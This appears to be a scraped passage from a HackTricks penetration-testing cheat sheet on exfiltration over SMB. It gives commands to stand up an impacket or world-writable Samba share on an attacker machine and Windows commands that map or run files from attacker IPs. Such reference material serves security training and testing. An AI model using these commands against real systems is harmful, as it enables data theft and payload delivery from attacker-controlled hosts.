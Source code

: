 </🔄 Alternative Step>

<div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>
[Exfiltration](https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration)

[**#SMB**]

Kali as server:
```shell
kali_op1> impacket-smbserver -smb2support kali `pwd` # Share current directory
kali_op2> smbserver.py -smb2support name /path/folder # Share a folder
#For new Win10 versions
impacket-smbserver -smb2support -user test -password test test `pwd`
```

Or create a smb share **using samba**:
```shell
apt-get install samba
mkdir /tmp/smb
chmod 777 /tmp/smb
#Add to the end of /etc/samba/smb.conf this:
[public]
    comment = Samba on Ubuntu
    path = /tmp/smb
    read only = no
    browsable = yes
    guest ok = Yes
#Start samba
service smbd restart
```

Windows:
```shell
CMD-Wind> \\10.10.14.14\path\to\exe
CMD-Wind> net use z: \\10.10.14.14\test /user:test test #For SMB using credentials

WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
WindPS-2> cd new_disk:
```
